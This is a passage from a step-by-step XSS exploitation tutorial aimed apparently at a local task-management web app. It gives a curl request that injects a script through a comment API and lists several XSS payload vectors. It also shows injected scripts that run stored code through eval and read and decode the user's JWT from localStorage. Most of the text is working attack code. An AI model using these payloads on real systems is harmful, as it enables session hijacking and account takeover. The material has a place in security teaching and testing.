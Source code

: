 ```html
  // Execute stored code
  eval(localStorage.getItem('malicious_code'));
</script>
```

## Step-by-Step Exploitation Tutorial

### Phase 1: Discovery and Testing

1. **Identify Input Points**
   ```bash
   # Test comment submission
   curl -X POST http://localhost:3000/api/comments/task/1 \
        -H "Authorization: Bearer YOUR_TOKEN" \
        -H "Content-Type: application/json" \
        -d '{"content": "<script>alert(\"test\")</script>"}'
   ```

2. **Confirm XSS Vulnerability**
   - Submit a comment with basic script tag
   - Navigate to task detail page
   - Observe if script executes (alert popup)

3. **Test Different Payloads**
   ```html
   <!-- Test various XSS vectors -->
   <img src=x onerror="alert('XSS')">
   <svg onload="alert('XSS')">
   <iframe src="javascript:alert('XSS')">
   <body onload="alert('XSS')">
   ```

### Phase 2: Information Gathering

1. **Enumerate Available JavaScript APIs**
   ```html
   <script>
     console.log('Available APIs:');
     console.log('localStorage:', typeof localStorage);
     console.log('sessionStorage:', typeof sessionStorage);
     console.log('fetch:', typeof fetch);
     console.log('XMLHttpRequest:', typeof XMLHttpRequest);
   </script>
   ```

2. **Discover Authentication Mechanism**
   ```html
   <script>
     // Check for JWT token
     const token = localStorage.getItem('token');
     if (token) {
       console.log('JWT Token found:', token);
       // Decode JWT to see user info
       const payload = JSON.parse(atob(token.split('.')[1]));
       console.log('User info:', payload);
     }
   </script>
   ```

